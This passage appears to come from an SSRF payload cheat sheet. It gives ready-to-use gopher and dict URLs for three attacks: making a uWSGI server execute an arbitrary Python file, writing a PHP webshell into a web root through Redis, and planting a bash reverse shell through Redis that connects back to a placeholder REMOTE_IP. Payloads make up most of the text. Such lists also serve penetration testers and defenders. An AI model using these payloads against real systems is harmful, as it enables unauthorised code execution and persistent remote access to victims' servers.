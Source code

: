 ## SSRF exploiting WSGI

Exploit using the Gopher protocol, full exploit script available at https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py.

```powershell
gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
```

| Header    |           |             |
|-----------|-----------|-------------|
| modifier1 | (1 byte)  | 0 (%00)     |
| datasize  | (2 bytes) | 26 (%1A%00) |
| modifier2 | (1 byte)  | 0 (%00)     |

| Variable (UWSGI_FILE) |           |    |            |   |
|-----------------------|-----------|----|------------|---|
| key length            | (2 bytes) | 10 | (%0A%00)   |   |
| key data              | (m bytes) |    | UWSGI_FILE |   |
| value length          | (2 bytes) | 12 | (%0C%00)   |   |
| value data            | (n bytes) |    | /tmp/test.py   |   |
	

## SSRF exploiting Redis

> Redis is a database system that stores everything in RAM

```powershell
# Getting a webshell
url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
url=dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
url=dict://127.0.0.1:6379/SAVE

# Getting a PHP reverse shell
gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
gopher://127.0.0.1:6379/_save
```

## SSRF exploiting PDF file

![https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Request%20Forgery/Images/SSRF_PDF.png](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Request%20Forgery/Images/SSRF_PDF.png)

Example with [WeasyPrint by @nahamsec](https://www.youtube.com/watch?v=t5fB6OZsR6c&feature=emb_title)

